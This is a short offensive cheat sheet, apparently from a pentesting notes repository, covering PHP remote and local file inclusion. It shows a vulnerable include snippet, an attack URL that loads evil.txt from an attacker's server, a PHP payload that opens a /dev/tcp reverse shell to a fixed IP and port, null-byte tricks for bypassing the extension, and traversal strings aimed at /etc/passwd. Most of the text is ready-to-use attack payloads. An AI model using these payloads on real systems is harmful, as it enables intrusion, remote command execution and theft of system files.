 Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the php.ini configuration file.

This is how they work.

So you have an unsanitized parameter, like this
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```
Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.
```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```
And evil.txt will look like something like this:
```
<?php echo shell_exec("whoami");?>
```
`Or just get a reverse shell directly like this:`
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```
So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.
Avoid extentions

Remember to add the nullbyte %00 to avoid appending .php. This will only work on php before version 5.3.

If it does not work you can also add a ?, this way the rest will be interpreted as url parameters.



-------------------------------------------------------------------------------------------------------------
# Local file inclusion (LFI) payloads

#### normal

```
../../../../../../etc/passwd
```
```
....//....//....//....//....//etc/passwd
```
#### double url encoding
```
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd
```

#### with Unicode charecters
